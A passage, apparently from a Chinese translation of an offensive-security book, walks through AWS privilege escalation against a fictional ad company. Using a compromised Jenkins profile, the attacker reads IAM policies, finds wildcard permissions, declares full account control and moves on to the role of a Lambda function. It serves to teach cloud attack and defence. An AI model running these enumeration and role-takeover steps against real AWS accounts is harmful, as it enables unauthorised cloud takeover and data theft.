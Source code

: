 ```

"PolicyName": "jenkins-policy",
"PolicyArn": "arn:aws:iam::aws:policy/jenkins-policy"

# get policy version
root@Point1:~/# **aws iam iam get-policy \**
**--policy-arn arn:aws:iam::886371554408:policy/jenkins-policy \**
**--profile jenkins**

"DefaultVersionId": "v4",

# get policy content

root@Point1:~/# **aws iam iam get-policy-version \**
**--policy-arn arn:aws:iam::886371554408:policy/jenkins-policy \**
**--version v4 \**
**--profile jenkins**
`--snip--`
"Action": [
        "iam:*",
        "ec2:*",
        "sts:*",
        "lambda:*",
         . . .
         ],
        "Resource": "*"
`--snip--`
```

列表 10-7：获取授予 Jenkins 账户的访问权限

看看策略输出中的所有星号。星星。到处都是星星。真的是。Jenkins 可以访问 MXR Ads 使用的每一个 AWS 服务，从 IAM 到 Lambda 以及更多。我们终于对 MXR Ads 的 AWS 账户拥有了完全且无可争议的控制权。

## 接管 Lambda

我们回到最初激发这个冒险的目标：假扮附加到 Lambda 函数`dmp-sync`的 IAM 角色，它将数据复制到 Gretsch Politico。

现在我们拥有了对 IAM 服务的无限访问权限，让我们来探索这个 Lambda 的角色（见列表 10-8）。

```
root@Point1:~/# **export AWS_PROFILE=jenkins**
root@Point1:~/# **aws iam get-role lambda-dmp-sync**
 "RoleName": "dmp-sync",
 "Arn": "arn:aws:iam::886371554408:role/dmp-sync",
 "AssumeRolePolicyDocument": {
     "Version": "2012-10-17",
     "Statement": [{
          "Effect": "Allow",
          "Principal": {
 "Service": "lambda.amazonaws.com"
           },
              "Action": "sts:AssumeRole"
      }]
`--snip--`
```
